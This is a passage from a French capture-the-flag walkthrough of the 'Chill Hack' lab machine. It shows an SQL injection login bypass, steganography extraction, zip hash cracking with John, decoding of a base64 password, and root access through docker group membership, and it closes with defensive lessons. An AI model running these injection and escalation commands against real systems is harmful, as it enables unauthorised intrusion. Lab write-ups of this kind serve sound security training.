Le port 9001 écoute uniquement sur `127.0.0.1` : il n'est pas accessible depuis l'extérieur. Pour y accéder depuis notre navigateur, on crée un tunnel SSH dans un nouveau terminal sur notre machine d'attaque, en réutilisant la clé privée d'apaar :

```bash
ssh -i apaar -L 9001:localhost:9001 apaar@<IP_cible>
```

!!! info "Qu'est-ce que le port forwarding SSH ?"
    L'option `-L 9001:localhost:9001` redirige notre port local 9001 vers le port 9001 du serveur distant. Tout ce qu'on envoie sur `localhost:9001` depuis notre machine transite par le tunnel SSH et arrive sur `127.0.0.1:9001` de la cible. Apaar n'a pas de mot de passe connu, l'authentification se fait avec la clé déposée à l'étape précédente.

[](./screen/ChillHack/WindowsTerminal_cRfGmuuahx.png)

On accède à `http://localhost:9001` depuis le navigateur : c'est un "Customer Portal" avec un formulaire de connexion (username + password).

[](./screen/ChillHack/msrdc_cTP43xJwhN.png)

On n'a aucun credential valide pour ce portail. On teste une injection SQL classique dans le champ username :

```
' OR 1=1 -- --
```

Le champ password peut contenir n'importe quoi.

[](./screen/ChillHack/msrdc_lcwhpoapsC.png)

La connexion aboutit et on arrive sur une page différente, affichant une image.

!!! tip "Pourquoi tester une injection SQL ici ?"
    Tout formulaire de connexion sans protection visible est une cible classique pour les injections SQL. On ne connait pas le code source du serveur à ce stade, mais on peut supposer qu'il compare les champs saisis à une base de données. Le payload `' OR 1=1 -- --` est le test standard : il ferme prématurément la chaîne de caractères avec `'`, ajoute une condition toujours vraie (`OR 1=1`), et commente le reste de la requête avec `-- --`. Si le code ne filtre pas les entrées, ce payload court-circuite la vérification. Le fait que la connexion aboutisse confirme que l'injection SQL fonctionne.

On télécharge cette image depuis notre machine d'attaque (le tunnel SSH est actif, `localhost:9001` est accessible) :

```bash
wget http://localhost:9001/images/hacker-with-laptop_23-2147985341.jpg
```

[](./screen/ChillHack/WindowsTerminal_oeOACeoqrH.png)

### Étape 9 : Extraction de credentials par stéganographie

L'image téléchargée semble banale, mais les CTF utilisent souvent la stéganographie pour dissimuler des données dans des fichiers médias. On tente une extraction avec steghide :

```bash
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```

Steghide demande une passphrase. On appuie simplement sur **Entrée** sans rien saisir : l'image n'a pas de protection par mot de passe.

```
Enter passphrase:
wrote extracted data to "backup.zip".
```

[](./screen/ChillHack/WindowsTerminal_bT2wRQraq6.png)

Un fichier `backup.zip` est extrait, mais il est protégé par mot de passe. On ne peut pas le deviner directement, donc on extrait son hash pour le craquer hors ligne :

```bash
zip2john backup.zip > hash.txt
```

[](./screen/ChillHack/WindowsTerminal_VF77HEFsfh.png)

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

[](./screen/ChillHack/WindowsTerminal_tcaCL2UWKg.png)

John trouve le mot de passe : `pass1word`. On décompresse l'archive en le saisissant quand il est demandé :

```bash
unzip backup.zip
```

[](./screen/ChillHack/WindowsTerminal_ffhjTAvk5L.png)

On lit le fichier extrait :

```bash
cat source_code.php
```

[](./screen/ChillHack/WindowsTerminal_GyUqt4YTu6.png)

C'est le code source du Customer Portal. On y voit que le mot de passe est comparé à sa valeur encodée en base64 :

```php
if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")
```

[](./screen/ChillHack/u3o5cgwTGx.png)

On décode cette chaîne pour obtenir le mot de passe en clair :

```bash
echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d
```

[](./screen/ChillHack/WindowsTerminal_bVuyyGOlPj.png)

Rien dans le code source ne confirme à qui appartient ce mot de passe. On suppose qu'il s'agit de celui d'`anurodh`, le second nom d'utilisateur repéré dans `note.txt` à l'étape 2 : `!d0ntKn0wmYp@ssw0rd`

!!! warning "Observation clé"
    Le mot de passe est stocké dans le code source PHP simplement encodé en base64. L'encodage base64 n'est pas du chiffrement : il n'offre aucune protection réelle et se décode instantanément. Tout secret exposé dans du code source est compromis.

### Étape 10 : Escalade via Docker (anurodh → root)

On teste maintenant l'hypothèse formulée à l'étape précédente. Depuis notre session SSH en tant qu'apaar, on bascule sur le compte `anurodh`, nom d'utilisateur découvert dans `note.txt` à l'étape 2, avec le mot de passe récupéré :

```bash
su anurodh
```

```
Password: !d0ntKn0wmYp@ssw0rd
```

La connexion réussit, confirmant l'hypothèse : c'est bien le mot de passe d'anurodh. On vérifie les groupes de cet utilisateur :

```bash
id
```

[](./screen/ChillHack/WindowsTerminal_SYsvl1x3tQ.png)

Anurodh appartient au groupe `docker`. C'est un vecteur d'escalade classique : tout membre du groupe docker peut monter le système de fichiers de l'hôte dans un conteneur et obtenir un accès root complet. On exploite donc ce vecteur :

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

!!! info "Pourquoi le groupe docker est-il équivalent à root ?"
    La commande monte `/` (la racine du système hôte) dans `/mnt` du conteneur Alpine. `chroot /mnt` change la racine du processus vers ce point de montage : on se retrouve dans un shell qui voit tout le système de fichiers hôte comme sa propre racine, sans aucune restriction. Docker n'applique aucun contrôle d'accès supplémentaire pour les membres du groupe.

[](./screen/ChillHack/WindowsTerminal_ohx67Q1q9B.png)

`whoami` confirme : on est root. On lit le flag :

```bash
cd /root
ls
cat proof.txt
```

[](./screen/ChillHack/WindowsTerminal_Z4VZKpGS0T.png)

!!! success "Réponse"
    **Root flag** → `{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}`

## Synthèse technique

| Catégorie | Détails |
|-----------|---------|
| **Vulnérabilités identifiées** | FTP anonyme, injection de commandes avec filtre bypassable, SQL injection sur portail interne, credentials en base64 dans archive stéganographiée, appartenance au groupe docker |
| **Techniques utilisées** | Bypass de filtre par backslash, reverse shell Python, déploiement de clé SSH, port forwarding SSH, SQL injection auth bypass, steghide, zip2john, Docker escape |
| **Outils employés** | Nmap, Gobuster, FTP, Netcat, Python, SSH, steghide, zip2john, John the Ripper, Docker |

!!! abstract "Ce qu'il faut retenir"
    1. Un filtre par liste noire est contournable par échappement : `l\s` n'est pas `ls` pour le filtre, mais l'est pour le shell.
    2. Un script sudo qui exécute des entrées utilisateur sans validation est une injection de commandes directe, quel que soit son objectif initial.
    3. L'appartenance au groupe docker est une élévation de privilèges garantie : monter `/` dans un conteneur donne un accès root complet à l'hôte.
    4. Un service accessible uniquement en interne reste exploitable via un tunnel SSH, sans aucune modification de la cible.
    5. Base64 n'est pas du chiffrement : une chaîne base64 dans du code source se décode en une seconde et expose le secret en clair.
